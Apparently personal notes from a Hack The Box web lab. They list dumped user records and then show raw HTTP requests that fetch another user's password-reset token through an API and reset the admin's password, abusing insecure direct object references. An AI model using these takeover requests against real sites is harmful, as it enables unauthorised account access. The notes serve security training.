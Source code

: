 Lankford","company":"Oberbrunner, Wyman and Ledner"}{"uid":"63","username":"k.flint","full_name":"Khalid Flint","company":"Halvorson Inc"}{"uid":"64","username":"r.kozlowski","full_name":"Rome Kozlowski","company":"Lubowitz - Leannon"}{"uid":"65","username":"r.wellman","full_name":"Renesmee Wellman","company":"Bernhard and Sons"}{"uid":"66","username":"e.canady","full_name":"Emrie Canady","company":"Bashirian - Medhurst"}{"uid":"67","username":"r.kwon","full_name":"Roselynn Kwon","company":"Schimmel - Jakubowski"}{"uid":"68","username":"k.zarate","full_name":"Karmen Zarate","company":"Shanahan Group"}{"uid":"69","username":"h.farlow","full_name":"Hisham Farlow","company":"Lockman Group"}{"uid":"70","username":"m.urias","full_name":"Malika Urias","company":"Willms LLC"}{"uid":"71","username":"m.farrington","full_name":"Micaiah Farrington","company":"Legros - Schulist"}{"uid":"72","username":"a.tolman","full_name":"Anand Tolman","company":"Schamberger and Sons"}{"uid":"73","username":"s.nutt","full_name":"Sequoia Nutt","company":"Wiza - Abernathy"}{"uid":"74","username":"htb-student","full_name":"Paolo Perrone","company":"Schaefer Inc"}{"uid":"75","username":"h.ray","full_name":"Harrison Ray","company":"Satterfield, Schultz and Kemmer"}

<span style="color:rgb(255, 0, 0)">found admin user? </span> 

found password reset function at /reset.php 
maybe we can reset the password of the Admin user? 

To get token for user 52:

GET /api.php/token/52 HTTP/1.1
Host: 94.237.49.212:42852
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://94.237.49.212:42852/settings.php
DNT: 1
Connection: close
Cookie: PHPSESSID=4o7opq5pp3o345cnf27ig2t23e; uid=52
Sec-GPC: 1

token: e51a85fa-17ac-11ec-8e51-e78234eb7b0c

had to change request method to GET to make it work: 

GET /reset.php?uid=52&token=e51a85fa-17ac-11ec-8e51-e78234eb7b0c&password=123 HTTP/1.1
Host: 94.237.49.212:42852
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://94.237.49.212:42852/settings.php
Origin: http://94.237.49.212:42852
DNT: 1
Connection: close
Cookie: PHPSESSID=4o7opq5pp3o345cnf27ig2t23e; uid=74
Sec-GPC: 1

<span style="color:rgb(255, 0, 0)">(in get requests the parameters are send in the URL)</span> 

now i have acces to user 52? 
yes!
he seems to be admin 
